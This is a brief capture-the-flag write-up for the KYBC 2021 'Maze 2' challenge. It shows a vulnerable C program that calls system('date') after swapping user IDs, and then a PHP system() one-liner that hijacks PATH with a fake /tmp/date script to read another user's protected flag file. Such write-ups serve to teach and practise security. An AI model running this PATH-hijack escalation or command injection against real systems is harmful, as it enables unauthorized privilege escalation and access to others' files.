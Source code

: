 Title: KYBC 2021 - Maze 2 Writeup
Date: 2021-03-22
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-2-writeup
Summary: Writeup for Maze 2 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 1]({filename}/CTF/kybc-yogosha-maze1.md) first_

After catching the first flag, let's check what's in `home/ctf_user2`. There is a flag file, but this time concatenating it doesn't work since the current user (`ctf_user1`) doesn't have read permissions to it. The only other interesting thing is a file called `sysadmin.c`. Permissions are in my favor this time, so let's have a look at the content:

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

    printf("Hello sysadmin :) \n");
    printf("Today date : \n");
    fflush(stdout);
    setreuid(geteuid(), getuid());
    system("date");
    return 0;
}
```

That `system("date")` call looks promising, so let's try to replace it with some useful bash statement instead:

```
<?php system('echo "cat /home/ctf_user2/.52942ab6e8a6dd0bd75a9029c2b5c574_flag2.txt" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Check the proc file and catch the flag - success!
